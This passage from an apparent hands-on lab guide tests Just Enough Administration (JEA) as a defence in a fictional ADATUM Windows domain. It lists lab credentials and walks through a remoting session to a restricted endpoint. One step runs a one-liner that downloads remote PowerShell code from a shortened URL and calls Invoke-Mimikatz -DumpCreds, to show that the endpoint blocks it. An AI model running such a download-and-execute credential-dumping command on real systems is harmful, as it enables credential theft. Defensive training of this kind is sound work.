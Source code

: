 10.   Verify that the `Register-PSSessionConfiguration` cmdlet completed successfully. The output should contain the name of the new endpoint (adatum.admin.restricted).



#### Task 3: Test JEA

  > **Note:**  Now you will attempt again the same exploit that employs the PowerSploit (PowerShell Post-Exploitation Framework) functionality to run the Invoke-Mimikatz cmdlet which was successfully carried out in a Windows PowerShell remoting session to the Windows Server 2016 computer. 

1.   Ensure that you are signed on to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Beth**
  -   PASSWORD: **Pa55w.rd**

2.   Right-click **Start** and in the right-click menu, click **Windows PowerShell (Admin)**.
3.   When prompted, in the **User Account Control** dialog box, click **Yes**.
4.   From the **Administrator: Windows PowerShell** window, type and execute the following:

```
Enter-PSSession –ComputerName 'LON-SVR1' `
                –ConfigurationName 'adatum.admin.restricted'
```

  > **Note:**  This will establish a Windows PowerShell Remoting session to LON-SVR1, as indicated by the `[LON-SVR1]:` prefix of the Windows PowerShell prompt.

5.   From the **Administrator: Windows PowerShell** window, type and execute the following:

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds
```

  > **Note:**  The exploit failed again, but this time, as the error message indicates, the command execution failed since it was executed in the runspace that does not support the NoLanguage mode. Obviously in order for this protection method to provide expected resiliency, you would need to also remove the default Windows PowerShell Remoting endpoint. While this is easy to accomplish by running the Disable-PSSessionConfiguration cmdlet on the target computer, such step has obvious implications in regard to remote administration, so remediating its impact should be carefully evaluated. 

6.   From the **Administrator: Windows PowerShell** window, type and execute the following:

```
Restart-Service –Name 'Print Spooler'
```

  > **Note:**  The command should not return any error messages.

7.   To verify that the execution of the Restart-Service cmdlet has been successful, switch to the console session to LON-SVR1, within the console session switch to **Event Viewer**, navigate to the **System** log in the **Windows Logs** folder and locate the most recent events with the **Event ID 7036**, representing the Print Spooler service entering first the stopped state and next the running state.
8.   Switch back to LON-CL1 and, from the **Administrator: Windows PowerShell** window, type and execute the following:

```
Restart-Service –Name 'Server'
```
